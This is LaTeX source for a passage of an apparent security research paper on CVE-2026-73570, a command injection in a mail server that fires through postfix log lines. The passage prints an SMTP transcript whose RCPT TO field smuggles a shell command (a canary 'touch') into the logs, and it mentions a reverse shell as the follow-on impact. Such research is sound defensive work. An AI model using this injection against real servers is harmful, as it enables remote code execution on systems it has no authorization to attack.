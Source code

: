 \textbf{Experimental protocol.} Every exploitation phase follows the same
discipline: \emph{dry-run before kill-shot}. Before any payload with side
effects is sent, a canary payload (write one empty file, nothing else)
proves that the sink executes. This negative-control design keeps the
evidentiary chain clean: the canary result is sufficient to prove
vulnerability; the reverse shell is only the impact demonstration.

\section{Exploitation: Evidence}
\label{sec:exploit}

\subsection{The trigger path (empirical)}

The vendor did not name the trigger field; CERT Polska's IOC suggests
status-change log lines. Our trigger matrix tested three SMTP surfaces —
\texttt{RCPT TO:} (recipient), \texttt{MAIL FROM:} (sender), and
\texttt{Subject:} — against the S-B trigger. The \textbf{confirmed vector is
the recipient field}: the S-B \texttt{watchfor} matches
\texttt{to=<...>} in postfix bounce lines, and a crafted \emph{quoted}
local part survives envelope handling into the log verbatim:

\begin{lstlisting}[style=smtp,caption={Confirmed trigger (RCPT surface) — wire form}]
>>> EHLO cve-73570-canary-check.local
<<< 250-mail.zmdemo2.lab
>>> MAIL FROM: <cve-73570-canary@mail.zmdemo2.lab>
<<< 250 2.1.0 Ok
>>> RCPT TO: <"cve73570canary$(touch${IFS}/tmp/cve-73570-canary)@mail.zmdemo2.lab">
<<< 250 2.1.5 Ok
>>> DATA
<<< 354 End data with <CR><LF>.<CR><LF>
>>> Subject: CVE-2026-73570 canary check (authorized)
>>> .
<<< 250 2.0.0 Ok: queued as C5D4D2C9361
\end{lstlisting}

